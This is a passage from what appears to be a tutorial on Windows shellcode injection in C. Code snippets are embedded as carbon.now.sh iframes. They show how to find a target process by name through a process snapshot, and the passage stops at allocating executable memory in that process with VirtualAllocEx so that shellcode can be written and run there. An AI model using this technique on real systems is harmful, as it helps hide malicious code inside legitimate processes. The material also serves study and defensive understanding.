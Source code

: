 <iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=sharp&l=text%2Fx-c%2B%2Bsrc&width=763.6875&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=int%2520pid%2520%253D%25200%253B%2520%2520%250Aif%2520%28%21Process32First%28hProcSnap%252C%2520%2526pe32%29%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520CloseHandle%28hProcSnap%29%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520%2520return%25200%253B%250A%257D%2520%2520%2520%2520%2520%2520%2520" 
  style="width: 773px; height: 170px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">

</iframe>

- In line 1 of the code block above, we get the first process from the snapshot we took, where, `hProcSnap` is a handle to the snapshot of processes and `pe32` is a `PROCESSENTRY32` structure which will get filled with information about a process.
- If the block of code fails to get a process for some reason, we close the handle.

- We now proceed to find the target process below
<iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=bw&l=text%2Fx-c%2B%2Bsrc&width=766.125&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=while%2520%28Process32Next%28hProcSnap%252C%2520%2526pe32%29%29%2520%257B%250A%2520%2520%2520%2520if%2520%28lstrcmpiA%28procname%252C%2520pe32.szExeFile%29%2520%253D%253D%25200%29%2520%257B%250A%2520%2520%2520%2520%2520%2520%2520%2520pid%2520%253D%2520pe32.th32ProcessID%253B%250A%2520%2520%2520%2520%2520%2520%2520%2520break%253B%250A%2520%2520%2520%2520%257D%250A%257D" 
  style="width: 773px; height: 190px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">

</iframe>

- We use `Process32Next`, to get the information about the next process. This allows us to cycle through the snapshot. We then compare the name of the current process which is stored in `pe32.szExeFile` with what we are looking for `procname`.

## 2. Injecting into the target process

- This process involves us allocating memory to our target process, writing to it and executing the shellcode from the process calling it.

### [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

- We use this to allocate memory in the `target` process.

<iframe
  src="https://carbon.now.sh/embed?bg=rgba%280%2C0%2C202%2C0%29&t=panda-syntax&wt=bw&l=text%2Fx-c%2B%2Bsrc&width=766.125&ds=false&dsyoff=20px&dsblur=68px&wc=true&wa=false&pv=0px&ph=0px&ln=false&fl=1&fm=Fira+Code&fs=14px&lh=143%25&si=false&es=2x&wm=false&code=LPVOID%2520pRemoteCode%2520%253D%2520VirtualAllocEx%28hProc%252C%2520NULL%252C%2520payload_len%252C%2520MEM_COMMIT%252C%2520PAGE_EXECUTE_READ%29%253B" 
  style="width: 773px; height: 110px; border:0; transform: scale(1); overflow:hidden;"
  sandbox="allow-scripts allow-same-origin">

